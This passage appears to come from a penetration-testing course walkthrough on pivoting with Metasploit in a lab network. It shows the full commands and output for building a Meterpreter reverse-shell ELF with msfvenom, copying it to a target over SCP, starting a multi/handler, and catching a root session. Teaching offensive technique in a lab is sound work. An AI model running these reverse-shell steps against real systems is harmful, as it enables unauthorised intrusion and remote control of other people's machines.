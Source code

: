 ***

## Setting Up Pivoting - Metasploit

Alternatively, we can set up our pivoting using Metasploit, as covered in the [Meterpreter Tunneling & Port Forwarding](https://academy.hackthebox.com/module/158/section/1428) section of the Pivoting module. To achieve this, we can do the following:

First, generate a reverse shell in Elf format using `msfvenom`.

```shell-session
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=443 -f elf > shell.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes
```

Next, transfer the host to the target. Since we have SSH, we can upload it to the target using SCP.

```shell-session
$ scp -i dmz01_key shell.elf root@10.129.203.111:/tmp

shell.elf                                                                      100%  207     1.6KB/s   00:00
```

Now, we'll set up the Metasploit `exploit/multi/handler`.

```shell-session
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost 10.10.14.15 
lhost => 10.10.14.15
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 443
LPORT => 443
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 10.10.14.15:443
```

Execute the `shell.elf` file on the target system:

```shell-session
root@dmz01:/tmp# chmod +x shell.elf 
root@dmz01:/tmp# ./shell.elf 
```

If all goes as planned, we'll catch the Meterpreter shell using the multi/handler, and then we can set up routes.

```shell-session
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 10.10.14.15:443 
[*] Sending stage (989032 bytes) to 10.129.203.111
[*] Meterpreter session 1 opened (10.10.14.15:443 -> 10.129.203.111:58462 ) at 2022-06-21 21:28:43 -0400

(Meterpreter 1)(/tmp) > getuid
Server username: root
```
